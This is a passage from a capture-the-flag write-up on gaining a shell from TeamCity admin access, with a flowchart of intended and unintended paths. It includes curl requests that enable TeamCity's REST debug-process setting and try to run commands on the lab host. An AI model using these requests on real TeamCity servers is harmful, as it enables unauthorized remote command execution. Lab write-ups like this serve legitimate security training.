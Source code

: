### Multiple Paths

From this point, with admin access to TeamCity, there are a couple ways to go. Ultimately they end with a shell as john. The intended path is to enable debug mode and run commands via the API to get a shell in the TeamCity container. Alternatively, The TeamCity backup functionality provides all that is needed to move forward, without ever getting a shell in the container.

```

flowchart TD;
    subgraph identifier[" "]
      direction LR
      start1[ ] --->|intended| stop1[ ]
      style start1 height:0px;
      style stop1 height:0px;
      start2[ ] --->|unintended| stop2[ ]
      style start2 height:0px;
      style stop2 height:0px;
    end
    
    A[TeamCity\nAPI Access]-->B(<a href='#enable-debug-mode'>Enable Debug</a>);
    B-->C[<a href='#shell'>Shell as tcuser in\nTeamCity container</a>];
    C--Via Filesystem-->D(Access SSH key,\nTeamCity DB)
    D-->E[<a href='#connect'>SSH as john</a>];
    A-->F(<a href='#via-admin-panel'>Backup TeamCity Data</a>);
    F--Via backup-->D;

linkStyle default stroke-width:2px,stroke:#FFFF99,fill:none;
linkStyle 1,6,7 stroke-width:2px,stroke:#4B9CD3,fill:none;
style identifier fill:#1d1d1d,color:#FFFFFFFF;

```

### Via RCE

#### Enable Debug Mode

If I try to run a command, it will fail for not being enabled:

```

oxdf@hacky$ curl -X POST 'http://teamcity.runner.htb/app/rest/debug/processes?exePath=id' -H "Authorization: Bearer $TOKEN"
Responding with error, status code: 400 (Bad Request).
Details: jetbrains.buildServer.server.rest.errors.BadRequestException: This server is not configured to allow process debug launch via "rest.debug.processes.enable" internal property
Invalid request. Please check the request URL and data are correct.

```

To enable debug mode, first this command to `/admin/admin.html`:

```

oxdf@hacky$ curl -X POST 'http://teamcity.runner.htb/admin/dataDir.html?action=edit&fileName=config%2Finternal.properties&content=rest.debug.processes.enable=true' -H "Authorization: Bearer $TOKEN"

```
